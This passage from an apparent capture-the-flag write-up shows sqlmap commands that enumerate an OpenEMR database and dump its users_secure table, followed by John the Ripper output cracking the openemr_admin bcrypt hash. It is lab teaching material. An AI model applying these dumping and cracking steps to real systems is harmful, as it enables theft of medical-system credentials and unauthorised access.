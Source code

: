 Let's have a look at the tables in the `openemr` database.

```bash
sqlmap -r request.txt -D openemr --tables
```

This shows us lots of tables, the most interesting one being: `users_secure`

We can dump the table to see any interesting information:

```bash
sqlmap -r request.txt -D openemr -T users_secure --dump
```

And this returns:

![dump](images/dump.png)

## Hash Cracking

We can crack this password hash using john the ripper. Just put the password hash into a file and run john on it (ignore the salt).

```bash
finlay@kali:~/htb/cache/new_resources$ sudo john hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 12 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 11 candidates buffered for the current salt, minimum 12 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (openemr_admin)
1g 0:00:00:02 DONE 2/3 0.4273g/s 5635p/s 5635c/s 5635C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we can see that the openemr_admin password is `xxxxxx`

Once we are logged in, we can see that it is running OpenEMR 5.0.1:
